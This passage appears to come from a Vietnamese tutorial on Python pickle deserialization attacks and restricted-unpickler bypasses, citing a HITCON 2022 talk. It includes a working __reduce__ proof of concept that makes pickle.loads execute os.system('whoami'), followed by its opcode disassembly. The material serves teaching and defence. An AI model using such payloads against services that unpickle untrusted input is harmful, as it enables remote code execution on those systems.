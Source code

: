 Để minh họa rõ hơn, ta có thể lấy ví dụ trong phần trình bày [Pain Pickle](https://hitcon.org/2022/slides/Pain%20Pickle%EF%BC%9A%E7%B3%BB%E7%B5%B1%E5%8C%96%E5%9C%B0%E7%B9%9E%E9%81%8E%20Restricted%20Unpickler.pdf) trong hitcon 2022:

![](images/bypass_pickle_image5.png)

### Hand-crafted bytestream

Phân tích qua ví dụ này, ta cũng có thể đoán được để khai thác pickle bằng cách viết tay thủ công thì cũng phải có tư duy khi làm mấy bài ROP chain trong pwn. Chúng ta tiếp tục phân tích một ví dụ dùng `__reduce__` xem sao:

```python
import pickle, os

class RCE:
    def __reduce__(self):
        return (os.system, ("whoami",))
payload = pickle.dumps(RCE())
pickle.loads(payload)

import pickletools
pickletools.dis(payload)
```

```
nguyenlong05
b'cposix\nsystem\np0\n(Vwhoami\np1\ntp2\nRp3\n.'
    0: c    GLOBAL     'posix system'
   14: p    PUT        0
   17: (    MARK
   18: V        UNICODE    'whoami'
   26: p        PUT        1
   29: t        TUPLE      (MARK at 17)
   30: p    PUT        2
   33: R    REDUCE
   34: p    PUT        3
   37: .    STOP
highest protocol among opcodes = 0
```
